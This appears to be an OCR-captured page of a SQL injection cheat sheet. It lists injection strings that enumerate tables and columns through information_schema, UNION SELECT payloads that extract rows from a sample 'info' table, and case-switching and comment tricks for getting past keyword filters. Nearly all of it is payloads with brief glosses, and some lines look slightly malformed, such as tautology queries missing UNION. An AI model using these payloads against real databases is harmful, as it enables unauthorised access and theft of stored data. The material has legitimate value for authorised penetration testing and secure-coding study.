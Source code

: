 param=' or 1=1 select table_name,null,null from information_schema.columns where table_schema='public'# --> display tables inside public database  
  
param=' or 1=1 select column_name,null,null from information_schema.columns where table_schema='public' and table_name='info'# --> display all columns of info table  
  
param=' or 1=1 select table_name as table,column_name as column,null from information_schema.columns#  
  

## Let say the database name is public and table name is info  
  
Let the table info has two columns id and name

  
  
param=' or 1=0 union select id,null,null from public.info# --> display id column from table "info"  
  
param=' or 1=0 union select id,name,null from public.info# --> display id and name column from table "info"  
  
param=' or 1=0 union select id,name,null from public.info where id='papa'# --> display id and name of 'papa'  
  

## BYPASSING filters

  
  
we can use case switching or commenting to bypass normal filters such as union, select  
  
param=' or 1=0 UniOn selEct id,null,null FroM public.info#  
  
param=' or 1=0 un//ion sele//ct id,null,null fr/**/om public.info# works in mssql  
  
Useful Resources  
  
[http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)  
  
[http://garage4hackers.com/showthread.php?t=1990](http://garage4hackers.com/showthread.php?t=1990)